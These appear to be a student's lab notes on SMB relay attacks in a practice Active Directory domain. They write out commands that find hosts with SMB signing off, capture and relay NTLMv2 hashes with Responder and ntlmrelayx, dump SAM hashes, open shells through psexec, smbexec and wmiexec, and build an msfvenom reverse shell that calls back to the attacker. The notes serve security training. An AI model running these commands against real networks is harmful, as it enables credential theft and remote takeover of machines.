

important thing for relay attacks is that the machine from which we got hash must be an ADMIN on the machine we are relaying the hash to
SMB signing must be off
we are only going to be listening and not responding, but relaying that info
relaying the hash of fcastle to SPIDERMAN where he is an ADMIN as well

to check if SMB signing disable, have an nmap scrip
#nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24
-p:port
scan entire network

signing enabled and required for 2019 server but not for SPIDERMAN and PUNISHER
relay the credentials form facstle(192.168.57.17) to pparker(192.168.57.18)

-tf:target file containg IP of the machine we are relaying ntlmv2 hash to
also run responder alongside it
OR

-t:target we are relaying ntlmv2 hash to
the machine from which we got hash(punisher) enter something that could not be resolved by its DNS and we got its ntlmv2 hash with responder, relayed it to ntlmrelay
important thing for relay attacks is that the machine from which we got hash must be an ADMIN on the machine we are relaying the hash to
we also get local users SAM hash

instead of capturing hash, its going to forward/relay it(do this in punisher)
on the shell having
#impacket-ntlmrelayx -tf target.txt -smb2support

SAM hashes sam as the ones in /etc/shadow

to get a shell use command
#impacker-ntlmrelayx -tf target.txt -smb2support -i
-i:interactive


opened a connection on 127.0.0.1 on port 11000
connect to that via netcat
#nc 127.0.0.1 11000


this is SMB shell
or
#impacket-ntlmrelayx -t 192.168.57.18(spiderman in this case) -smb2support


Gainig shell access with metasploit
#search psexec

#use 4
#options


#show targets(in case doesent work in first attemp)

other way rather than using metasploit

other options which may work sometimes
#smbexec.py marvel.local/fcastle:P@ssword@192.168.57.17
#wmiexec.py marvel.local/fcastle:P@ssword@192.168.57.17
--------------------------------------------------------------------------------------------------------------
Another way to get shell is
#msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.57.5 LPORT=4444 -f exe -o shell.exe
-p:payload
-f:output file type
-o:output file name

#responder -I eth0 -dwv
#impacket-ntlmrelayx -t 192.168.57.18(spiderman in this case) -smb2support -e shell.exe

-e:executable file
relaying ntlm hashes to spiderman